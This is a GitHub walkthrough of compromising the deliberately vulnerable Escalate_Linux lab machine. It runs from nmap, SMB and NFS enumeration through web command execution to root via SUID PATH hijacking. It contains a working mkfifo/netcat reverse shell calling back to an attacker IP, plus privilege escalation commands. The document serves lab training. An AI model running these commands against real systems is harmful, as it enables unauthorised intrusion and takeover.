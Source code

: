 # SEC-Walkthrough-EscalateLinux

![Linux](https://img.shields.io/badge/Linux-Escalation-red?logo=linux)
![Difficulty](https://img.shields.io/badge/Difficulty-Medium-yellow)
![License](https://img.shields.io/badge/Use-Educational-green)

> _This walkthrough documents the exploitation process of the Escalate_Linux vulnerable machine. It covers the full process from reconnaissance to privilege escalation using common tools found in Kali Linux._

---

## 🧠 Objective

The goal of this walkthrough is to simulate a full offensive security assessment against a deliberately vulnerable Linux machine (Escalate_Linux), practicing enumeration, exploitation, and privilege escalation techniques.

---

## ⚙️ Lab Setup

- **Attacker Machine**: Kali Linux (IP: 10.10.1.20)
- **Target Machine**: Escalate_Linux (IP: 10.10.1.21)
- **Network Type**: NAT (isolated)
- **Tools Used**: `nmap`, `enum4linux`, `showmount`, `rpcinfo`, `smbclient`, `curl`, `netcat`, `find`

---

## 🔎 Reconnaissance

Basic connectivity and service detection via Nmap:

```bash
nmap -sC -sV -T4 -Pn 10.10.1.21
```

Services discovered:

- Apache 2.4.29 on port 80
- SMB on ports 139 and 445
- RPC and NFS on ports 111 and 2049

---

## 📡 Scanning & Enumeration

### SMB Enumeration

```bash
enum4linux -a 10.10.1.21
smbclient -L //10.10.1.21/ -N
```

- Users: user1, user2, ..., user8
- Shares found: `liteshare` (requires auth), `IPC$` (anonymous)

### NFS Enumeration

```bash
showmount -e 10.10.1.21
rpcinfo -p 10.10.1.21
```

- `/home/user5` is exported to all clients (`*`), no auth required.

---

## 💥 Exploitation

### Remote Code Execution (Apache)

Discovered `shell.php` page:

```bash
curl http://10.10.1.21/shell.php?cmd=whoami
```

Successful reverse shell established:

```bash
mkfifo /tmp/f; nc 10.10.1.20 2600 < /tmp/f | /bin/bash > /tmp/f
```

Listener on attacker:

```bash
nc -lvnp 2600
```

### User Access Gained: `user6`

---

## 🔐 Privilege Escalation

### Step 1: SUID Binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

Identified `/home/user5/script` with SUID bit.

### Step 2: PATH Manipulation

Created fake `ls` script:

```bash
echo "/bin/bash" > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
```

Executing `/home/user5/script` now spawns a root shell.

### Root Access Gained ✅

---

## 📌 Lessons Learned

- Misconfigured NFS exports can be critical entry points.
- Web RCE vectors (e.g. `shell.php`) should never be exposed in production.
- SUID binaries that call commands via relative path can be exploited with `$PATH` hijacking.
- Always sanitize user inputs and isolate user permissions.

---

## 📁 References

- [CVE-2017-15715](https://nvd.nist.gov/vuln/detail/CVE-2017-15715)
- [CVE-1999-0629](https://nvd.nist.gov/vuln/detail/CVE-1999-0629)
- [CVE-1999-0519](https://nvd.nist.gov/vuln/detail/CVE-1999-0519)
- [RedTeamOperations Escalate_Linux](https://github.com/RedTeamOperations/Vulnerable_Machine)
- [MITRE ATT&CK Privilege Escalation](https://attack.mitre.org/tactics/TA0004/)

---

> 🛡️ This walkthrough was created for educational purposes only. Always conduct ethical hacking in controlled environments with permission.

